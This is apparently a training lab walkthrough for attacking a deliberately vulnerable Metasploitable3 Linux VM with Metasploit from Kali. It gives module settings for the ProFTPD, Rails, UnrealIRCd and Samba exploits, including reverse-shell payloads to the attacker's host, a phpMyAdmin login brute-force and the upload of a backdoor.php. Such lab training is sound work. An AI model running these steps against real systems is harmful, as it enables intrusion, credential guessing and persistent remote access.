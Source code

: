 ## Metasploit on the Linux Metasploitable3 

Here are several labs on running Metasploit from Kali on a Metasploitable3 Linux VM. Please make sure when you execute these labs you verify that home environment setup is working properly and you are able to scan the Metasploitable 3 Linux host from Kali using NMAP. Typically when you find the Metasploitable3 system it will have 5 or more open ports. This walkthrough is intended to get your familiar with the Metasploit tool and the options required to successfully execute the exploit.

## ProFTPD

`use exploit/unix/ftp/proftpd_modcopy_exec`

`set payload cmd/unix/reverse_perl`

`set rhosts xxx.xxx.xxx.xxx`

`set rport 80` (but it should already be set to that)

`set rport_ftp 21`

`set targeturi /`

`set tmppath /tmp`

`set sitepath /var/www/html`

`set lhost xxx.xxx.xxx.xxx` (this should be your kali linux IP address)

`set lport 4444` (Port on your system exploit and payload runs to create session)

`set payload cmd/unix/reverse_perl`

## phpMyAdmin

use auxiliary/scanner/http/phpMyAdmin_login
set rhosts 192.168.1.171
set USER_AS_PASS true
set targeturi /phpMyAdmin/index.php
set user_file /tmp/users.txt
set pass_file /tmp/passwords.txt

echo root >> /tmp/users.txt
echo admin >> /tmp/users.txt
echo user >> /tmp/users.txt

echo password >> /tmp/passwords.txt
echo Password >> /tmp/passwords.txt


## Ruby On Rails
`use exploit/multi/http/rails_actionpack_inline_exec`

`set rhost xxx.xxx.xxx.xxx` (IP of the host you are attacking)

`set rport 3500` (Port number Ruby app is listening on)

`set lhost xxx.xxx.xxx.xxx` (IP of the Kail VM you are attacking from)

`set lport 4444` (Port on your system exploit and payload runs to create session)

`set targeturi readme`

`set targetparam os`

`set payload ruby/shell_reverse_tcp`


## Unreal IRC

`use exploit/unix/irc/unreal_ircd_3281_backdoor`

`set rhost xxx.xxx.xxx.xxx` (IP of the host you are attacking)

`set rport 6697` (Port number IRC app is listening on)

`set lhost xxx.xxx.xxx.xxx` (IP of the Kail VM you are attacking from)

`set lport 4444` (Port on your system exploit and payload runs to create session)

`set payload cmd/unix/reverse`

## Samba FTP

`use auxiliary/admin/smb/upload_file`

`set rhosts xxx.xxx.xxx.xxx`

`set rport 445`

`set rport_ftp 21`

`set smbshare public`

`set smbuser chewbacca`

`set lpath /tmp/backdoor.php`

`set rpath backdoor.php`

`set lhost xxx.xxx.xxx.xxx` (this should be your kali linux IP address)

`set lport 4444` (Port on your system exploit and payload runs to create session)

